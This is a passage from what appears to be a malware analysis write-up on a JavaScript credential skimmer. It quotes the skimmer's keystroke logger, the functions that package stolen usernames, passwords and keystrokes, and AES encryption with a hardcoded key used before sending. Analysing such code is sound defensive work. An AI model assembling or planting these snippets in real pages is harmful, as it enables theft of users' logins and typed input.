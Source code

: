 This code listens for the `submit` event on any form. When a form is submitted, it extracts `username` (or `email`) and `password` fields using `FormData`. If both fields are found, it calls `exfiltrateCredentials()` to send the data to a remote server.

- **Keystroke Logging**

```javascript
document.addEventListener('keydown', function(event) {
    var key = event.key;
    exfiltrateData('keystroke', key);
});
```
{: .nolineno }

The script also logs every keypress using the `keydown` event and sends each keystroke to the remote server via `exfiltrateData()`.

- **Data Exfiltration**

    **exfiltrateCredentials** prepares a payload containing the username, password, and the hostname of the current site. It then encrypts the payload with `encryptPayload()` and sends the encrypted payload to the attacker's server with `sendToServer()`.

    ```javascript
    function exfiltrateCredentials(username, password) {
        const payload = { user: username, pass: password, site: window.location.hostname };
        const encryptedPayload = encryptPayload(JSON.stringify(payload));
        sendToServer(encryptedPayload);
    }
    ```
    {: .nolineno }

    **exfiltrateData** is preety similar to `exfiltrateCredentials`, but used for sending general data (e.g., keystrokes).

    ```javascript
    function exfiltrateData(type, data) {
        const payload = { type: type, data: data, site: window.location.hostname };
        const encryptedPayload = encryptPayload(JSON.stringify(payload));
        sendToServer(encryptedPayload);
    }
    ```
    {: .nolineno }

- **Payload Encryption**

```javascript
function encryptPayload(data) {
    const key = CryptoJS.enc.Utf8.parse('SuperSecretKey123');
    const iv = CryptoJS.lib.WordArray.random(16);
    const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
    return iv.concat(encrypted.ciphertext).toString(CryptoJS.enc.Base64);
}
```
{: .nolineno }

The payload is encrypted with AES encryption using the CryptoJS library.  The **Key** is hardcoded `'SuperSecretKey123'` , The **IV (Initialization Vector)** is randomly generated for each encryption and finally the encrypted payload is converted to Base64 for transmission.
